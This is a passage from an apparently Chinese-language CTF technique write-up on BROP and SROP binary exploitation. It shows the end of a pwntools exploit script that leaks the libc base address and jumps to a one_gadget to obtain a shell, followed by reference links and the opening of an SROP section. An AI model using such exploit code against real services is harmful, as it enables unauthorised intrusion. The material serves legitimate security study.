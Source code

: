```
    
    logs = log.progress("Leak the elf",level=logging.CRITICAL)
    log_off()
    #context.log_level = 'debug'
    #content = leak_elf(logs, offset, main_addr,pop_rdi,puts_addr)
    log_on()

    #open("leak-0x2000",'w').write(content)

    puts_plt = 0x601018
    
    logs = log.progress("Leak the Libc address",level=logging.CRITICAL)
    log_off()
    #context.log_level = 'debug'
    libc_base = leak_libc(offset, main_addr, pop_rdi, puts_addr, puts_plt)
    log_on()

    logs.success("Find the libc_base at 0x%x " % libc_base)

    one_gadget = 0xf1147
    one_gadget += libc_base

    get_shell(offset, one_gadget)
```

#### 参考链接

https://mp.weixin.qq.com/s/Old4dKS2aDp1TETTn0WzoQ

http://showlinkroom.me/2017/11/09/pwn%E4%B9%8BBROP/

http://www.scs.stanford.edu/brop/bittau-brop.pdf 最开始的研究文献

http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf

https://kirin-say.top/2019/04/29/CTF-2019-PWN/

https://github.com/nushosilayer8/pwn/tree/master/brop

### srop技术分析

Linux接收信号后的处理大致过程如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/4.png)
